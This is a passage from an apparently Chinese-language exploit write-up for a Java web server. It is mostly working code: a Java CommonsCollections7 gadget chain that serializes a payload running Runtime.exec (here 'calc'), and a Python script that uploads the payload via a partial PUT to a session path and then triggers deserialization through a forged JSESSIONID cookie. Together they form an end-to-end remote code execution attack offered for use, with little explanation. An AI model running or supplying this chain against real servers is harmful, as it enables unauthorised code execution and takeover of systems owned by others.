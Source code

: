 生成payload:  
  
```
import org.apache.commons.collections.Transformer;  import org.apache.commons.collections.functors.ChainedTransformer;  import org.apache.commons.collections.functors.ConstantTransformer;  import org.apache.commons.collections.functors.InvokerTransformer;  import org.apache.commons.collections.map.LazyMap;  import org.apache.commons.collections4.map.DefaultedMap;  import utils.reflection.Reflection;  import utils.serialization.Serialization;  import java.io.FileInputStream;  import java.io.FileOutputStream;  import java.io.ObjectInputStream;  import java.io.ObjectOutputStream;  import java.lang.reflect.Field;  import java.util.HashMap;  import java.util.Hashtable;  import java.util.Map; /**   * chain:   * java.util.Hashtable#readObject   * java.util.Hashtable#reconstitutionPut   * org.apache.commons.collections.map.AbstractMapDecorator#equals   * java.util.AbstractMap#equals   * org.apache.commons.collections.map.LazyMap#get   * org.apache.commons.collections.functors.ChainedTransformer#transform   * ...   */public class CommonsCollections7 {      public static void main(String[] args) throws Exception {          CommonsCollections7 commonsCollections7 = new CommonsCollections7();          commonsCollections7.serialize();      }      public void serialize() throws Exception {          String cmd = "calc ";          Transformer[] transformers = new Transformer[]{              new ConstantTransformer(Runtime.class),              new InvokerTransformer(                  "getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}              ),              new InvokerTransformer(                  "invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}              ),              new InvokerTransformer(                  "exec", new Class[]{String.class}, new Object[]{cmd}              )          };          // 创建虚假的调用链          Transformer[] fakeTransformers = new Transformer[]{};          ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);          Map abstractMapDec = DefaultedMap.defaultedMap(new HashMap<>(), "test");          Map lazyMap = LazyMap.decorate(new HashMap<>(), chainedTransformer);          // hash 碰撞          abstractMapDec.put("yy", 1);          lazyMap.put("zz", 1);          Hashtable hashtable = new Hashtable<>();          hashtable.put(abstractMapDec, "AbstractMapDec");          hashtable.put(lazyMap, "lazy");          Reflection.setFieldValue(chainedTransformer, "iTransformers", transformers);          lazyMap.remove("yy");          Serialization.serialize("payload.bin", hashtable);      }  }  
```  
  
  
**（三）利用脚本**  
  
****  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8WFHRW8Evk0zcqAPJSmSRktqm69UXCNGtz8L1sz1g1Wg3sEYViamG90Q/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
```
import os  import requests  import time  # payload路径  file_path = 'payload.bin'total_size = os.path.getsize(file_path)  # 获取文件大小（字节数）  with open(file_path, 'rb') as f:      payload = f.read()  # Content-Range 触发 "partial PUT"  headers = {      'Content-Range': f'bytes 0-{total_size - 1}/{total_size}',  # 指示整个文件范围      'Content-Length': str(total_size),                          # 设置请求体的长度  }  baseurl = input("plese input the base url: ")  try:      # 上传恶意会话文件      session = requests.Session()      res = session.put(          url = f"{baseurl}/magic7/session",          headers = headers,          data = payload      )      time.sleep(4)      cookies = {          'JSESSIONID': '.magic7'# 设置 JSESSIONID Cookie      }      # 发送 GET 请求，反序列化".magic7.session"会话文件      requests.get(baseurl + "/index.jsp", cookies=cookies)  except Exception as e:      print(f"error: {e}")  # 处理其他任何异常  
```  
  
  
**（四）执行脚本**  
  
****  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8WFHRW8Evk0zcqAPJSmSRktqm69UXCNGtz8L1sz1g1Wg3sEYViamG90Q/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
